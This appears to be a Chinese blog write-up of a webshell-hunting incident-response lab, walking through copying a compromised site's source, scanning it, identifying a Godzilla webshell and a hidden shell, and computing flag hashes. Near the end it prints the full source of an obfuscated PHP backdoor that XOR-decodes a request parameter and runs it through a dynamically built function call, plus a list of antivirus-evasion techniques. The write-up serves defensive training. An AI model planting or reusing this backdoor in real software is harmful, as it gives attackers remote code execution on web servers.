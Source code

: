 ```yaml
---
title: 玄机-webshell查杀
date: 2024-11-17 22:47:15
permalink: /pages/a0b4dd/
author: 
  name: Cola
  link: https://the0n3.top
---
```

靶机账号密码 root xjwebshell

- 1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 2.黑客使用的什么工具的shell github地址的md5 flag{md5}
- 3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 4.黑客免杀马完整路径 md5 flag{md5}


可以使用xftp，xshell这些成熟工具连接靶机，操作方便


命令行ssh连接靶机，tar命令打包网站目录，scp命令把网站源码下载到本地

```bash
ssh root@ip
# yes,输入密码，默认输入不显示
cd /var/www/html
tar -czvf www.tar.gz -C /var/www/html .
```

windows本地下载靶机里打包好的源码，解压，使用D盾扫描一下，重点关注这些webshell

```bash
scp root@161.189.226.230:/var/www/html/www.tar.gz .
```

D盾扫一下，重点关注这些webshell，在include/gz.php中找到flag格式字符串

![1](https://the0n3.top/medias/xj-webshell/1.png)

![2](https://the0n3.top/medias/xj-webshell/2.png)

也可以使用`grep`命令通过`-E`参数正则匹配webshell里的flag，太香了。想学linux三剑客！

```bash
cat *.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,5}"
cat */*.php | grep -o -E ".{1,5}-.{1,4}-.{1,4}-.{1,4}-.{1,5}"
```

关于黑客使用的什么webshell工具

跟踪D盾扫描的记录，在`gz.php`,`include/Db/.Mysqli.php`都出现了`getBasicsInfo`，这也算是是`哥斯拉`的一个典型特征吧

![4](https://the0n3.top/medias/xj-webshell/4.png)

以及文件开头的隐藏行为

```php
@session_start(); - 开启一个会话。
@set_time_limit(0); - 设置脚本执行时间为无限。
@error_reporting(0); - 关闭所有错误报告。
```

[哥斯拉项目地址](https://github.com/BeichenDream/Godzilla)

```bash
php -a
echo md5('https://github.com/BeichenDream/Godzilla');
```

关于隐藏shell的完整路径的md5，在linux里，文件名以`.`开头是隐藏文件，那么这个隐藏shell还是`include/Db/.Mysqli.php`，完整路径就是`/var/www/html/include/Db/.Mysqli.php`

```bash
php -a
echo md5('/var/www/html/include/Db/.Mysqli.php');
```

最后，哪个是免杀马？免杀是什么？

> 免杀：免杀（也叫 绕过杀软 或 绕过检测）是指恶意软件、木马、病毒或攻击代码通过某些技术手段避免被常见的安全防护软件（如杀毒软件、入侵检测系统、入侵防御系统、Web应用防火墙等）检测到或阻止。

一些常见手段：

- 代码加密和混淆
- 动态加载或执行
- 特征伪装
- 错误抑制和日志隐藏
- 自我修改和变异

在`include/wap/top.php`的源码中，存在动态构造后门和编码的过程，可以认为是免杀马

![5](https://the0n3.top/medias/xj-webshell/5.png)

```php
<?php
$key = "password";
//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);
```

参考、致谢：

- [玄机第一章 应急响应-webshell查杀](https://baozongwi.xyz/2024/10/24/%E7%8E%84%E6%9C%BA%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/)
- [玄机——第一章 应急响应-webshell查杀 wp（手把手保姆级教学）](https://blog.csdn.net/administratorlws/article/details/139521078)